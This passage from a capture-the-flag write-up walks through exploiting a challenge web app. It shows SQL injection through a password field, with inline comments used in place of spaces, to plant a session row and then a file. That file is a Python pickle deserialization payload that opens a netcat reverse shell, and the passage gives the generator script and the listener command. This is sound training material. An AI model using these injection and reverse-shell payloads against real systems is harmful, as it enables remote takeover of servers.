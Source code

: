```SQL
-- input
INSERT/**/INTO/**/table(col)/**/VALUES(\val\)
-- is simply
INSERT INTO table(col) VALUES('val')
```


We can supply an arbitrary username and add our payload in the password like so.

```
password\;INSERT/**/INTO/**/activesessions(sessionid)/**/VALUES(1337);--
```

Note: We can verify if the session is inserted by going to `/download/flag.txt/1337`. and the error is not "No active sessions found"

### Exploiting using Pickle RCE
I was  stuck trying to exfiltrate using boolean based to determine if the database is the same as provided. Once confirmed, I  thought that reading a mangled flag.txt is the challenge or trying to read from a different table. Then I noticed that it is using pickle library for files which can be vulnerable to **deserialization** attacks .

Create generic Pickle RCE payload. There are online guides out there but this is generally what it looks like. 


```python
import pickle, base64
import os, sys


class PickleRCE:
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (os.system, (self.payload,))
        
def pickle_dump(obj):
    return base64.b64encode(pickle.dumps(obj)).decode()


pickled = PickleRCE("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {ip} {port} >/tmp/f")
payload = pickle_dump(pickled)
print(payload)
```

To add this file on the database, we can just use the previous entry point in the password like in the previous payload inserting into `files`. 

```sql
password\;INSERT/**/INTO/**/files(filename,data)/**/VALUES/**/(\pickle.rce\,\gASV....SFlFKULg==\);--
```

Setup a listener `nc -nvlp <port>`
